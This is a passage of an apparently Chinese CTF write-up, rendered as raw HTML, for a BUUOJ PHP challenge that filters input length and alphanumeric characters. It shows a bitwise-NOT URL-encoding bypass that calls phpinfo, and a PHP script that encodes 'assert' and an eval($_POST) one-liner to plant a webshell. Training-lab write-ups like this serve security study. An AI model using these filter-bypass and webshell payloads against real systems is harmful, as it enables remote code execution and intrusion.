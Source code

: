 <span class="token comment">// ?&gt;</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li><li style="color: rgb(153, 153, 153);">2</li><li style="color: rgb(153, 153, 153);">3</li><li style="color: rgb(153, 153, 153);">4</li><li style="color: rgb(153, 153, 153);">5</li><li style="color: rgb(153, 153, 153);">6</li><li style="color: rgb(153, 153, 153);">7</li><li style="color: rgb(153, 153, 153);">8</li><li style="color: rgb(153, 153, 153);">9</li><li style="color: rgb(153, 153, 153);">10</li><li style="color: rgb(153, 153, 153);">11</li><li style="color: rgb(153, 153, 153);">12</li><li style="color: rgb(153, 153, 153);">13</li><li style="color: rgb(153, 153, 153);">14</li><li style="color: rgb(153, 153, 153);">15</li><li style="color: rgb(153, 153, 153);">16</li><li style="color: rgb(153, 153, 153);">17</li></ul></pre> 
<p>接收code，过滤了长度大于40的，过滤了字母数字<br> url编码绕过</p> 
<pre data-index="1" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">phpinfo
<span class="token punctuation">(</span><span class="token operator">~</span><span class="token operator">%</span><span class="token number">8</span>F<span class="token operator">%</span><span class="token number">97</span><span class="token operator">%</span><span class="token number">8</span>F<span class="token operator">%</span><span class="token number">96</span><span class="token operator">%</span><span class="token number">91</span><span class="token operator">%</span><span class="token number">99</span><span class="token operator">%</span><span class="token number">90</span><span class="token punctuation">)</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li><li style="color: rgb(153, 153, 153);">2</li></ul></pre> 
<pre data-index="2" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//4e9fc55c-aaab-41a3-bf62-be69923517cb.node3.buuoj.cn/?code=(~%8F%97%8F%96%91%99%90)();</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210302214849139.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3d1eWFvd2FuZ2NodWFu,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> 同过get上传木马</p> 
<pre data-index="3" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;"><span class="token delimiter important">&lt;?php</span> 
<span class="token function">error_reporting</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">)</span><span class="token punctuation">;</span>

<span class="token variable">$a</span><span class="token operator">=</span><span class="token single-quoted-string string">'assert'</span><span class="token punctuation">;</span>
<span class="token variable">$b</span><span class="token operator">=</span><span class="token function">urlencode</span><span class="token punctuation">(</span><span class="token operator">~</span><span class="token variable">$a</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token keyword">echo</span> <span class="token variable">$b</span><span class="token punctuation">;</span>
<span class="token comment">//%9E%8C%8C%9A%8D%8B</span>
<span class="token keyword">echo</span> <span class="token double-quoted-string string">"&lt;br&gt;"</span><span class="token punctuation">;</span>
<span class="token variable">$c</span><span class="token operator">=</span><span class="token single-quoted-string string">'(eval($_POST["test"]))'</span><span class="token punctuation">;</span>
<span class="token variable">$d</span><span class="token operator">=</span><span class="token function">urlencode</span><span class="token punctuation">(</span><span class="token operator">~</span><span class="token variable">$c</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token keyword">echo</span> <span class="token variable">$d</span><span class="token punctuation">;</span>
<span class="token comment">//%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8B%9A%8C%8B%DD%A2%D6%D6</span>
 <span class="token delimiter important">?&gt;</span>